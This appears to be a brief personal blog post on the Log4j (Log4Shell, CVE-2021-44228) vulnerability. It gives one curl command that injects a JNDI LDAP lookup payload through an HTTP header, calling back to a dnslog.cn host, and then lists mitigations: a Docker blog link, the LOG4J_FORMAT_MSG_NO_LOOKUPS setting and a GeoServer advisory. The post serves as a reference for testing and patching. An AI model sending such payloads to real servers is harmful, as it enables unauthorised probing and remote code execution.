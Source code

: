 ```yaml
---
layout: post
title:  "log4j"
date:   2021-12-09 13:11:00 +0200
categories: log4j java tomcat
---
```

```
curl https://hostname -H 'X-Api-Version: ${jndi:ldap://xxx.dnslog.cn/a}'
```
mitigation:<br>
[https://www.docker.com/blog/apache-log4j-2-cve-2021-44228/](https://www.docker.com/blog/apache-log4j-2-cve-2021-44228/)
```
ENV LOG4J_FORMAT_MSG_NO_LOOKUPS=true
```

geoserver:<br>
[http://geoserver.org/announcements/2021/12/13/logj4-rce-statement.html](http://geoserver.org/announcements/2021/12/13/logj4-rce-statement.html)